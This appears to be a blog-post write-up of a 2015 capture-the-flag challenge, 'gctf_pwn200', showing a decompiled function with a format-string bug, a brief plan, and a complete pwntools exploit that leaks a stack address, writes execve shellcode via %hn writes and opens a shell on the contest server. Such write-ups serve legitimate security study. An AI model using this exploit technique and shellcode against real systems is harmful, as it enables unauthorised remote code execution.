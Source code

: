```yaml
---
layout: post
title: "gctf_pwn200"
date: 2015-09-27 00:50:44 +0800
comments: true
categories: 
---
```

###0x00 漏洞
	__int64 func2()
	{
	  char format; // [sp+0h] [bp-20h]@1

	  (*(void (__fastcall **)(void *))((void (__fastcall **)(_QWORD))ptr + 3))(ptr);
	  input(&format, 32);
	  printf(&format, 32LL);
	  (*(void (__fastcall **)(void *))((void (__fastcall **)(_QWORD))ptr + 4))(ptr);
	  return 0LL;
	}

###0x01 anasy

先泄漏栈地址，再将shellcode写到栈上，改写main的oldeip即可得到shell

###0x0  poc
	from pwn import *
	from binascii import *

	shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
	shellcode = shellcode.ljust(40, 'A')

	shellcode1 = u64(shellcode[:8])
	shellcode2 = u64(shellcode[8:16])
	shellcode3 = u64(shellcode[16:24])
	shellcode4 = u64(shellcode[24:32])
	shellcode5 = u64(shellcode[32:40])
	mainebp = 0

	#r = process('./pwn_250')
	r = remote('58.220.29.80', 65534)

	def leak_ebp():
		global mainebp
		print r.recvuntil("ey, who'are you?")
		r.sendline('nnnnnn')
		print r.recvuntil(">")
		r.sendline("2")
		r.sendline("%10$p")
		data = r.recvuntil("bye")
		print '-----------'
		print data
		start = data.find('0x')
		end = data.find('\n')
		end = data.find('\ngoodb')
		mainebp = data[start: end]
		mainebp = int(mainebp, 16)
		print '-----------'
		print 'mainebp =>',hex(mainebp)

	def write(addr, cont):
		addr = hex(addr)
		addr = '0x' + addr[2:].rjust(16, '0')
		cont = hex(cont)
		cont = '0x' + cont[2:].rjust(16, '0')
		print 'addr',addr
		print 'cont',cont
		l = []
		l.append(str(int(cont[-4:], 16)))
		l.append(str(int(cont[-8:-4], 16)))
		l.append(str(int(cont[-12:-8], 16)))
		l.append(str(int(cont[-16:-12], 16)))
		addr = int(addr, 16)
		for i in range(4):
			print r.recvuntil(">")
			r.sendline('2')
			payload  = ''
			if l[i] == '0':
				pass
			else:
				payload += '%' + l[i] + 'x'
			payload += '%8$hn'
			payload  = payload.ljust(16, 'A') 
			payload += p64(addr + 2*i)
			r.sendline(payload)


	leak_ebp()
	write(mainebp+48, shellcode5)
	write(mainebp+40, shellcode4)
	write(mainebp+32, shellcode3)
	write(mainebp+24, shellcode2)
	write(mainebp+16, shellcode1)
	write(mainebp+8, mainebp+16)
	r.interactive()
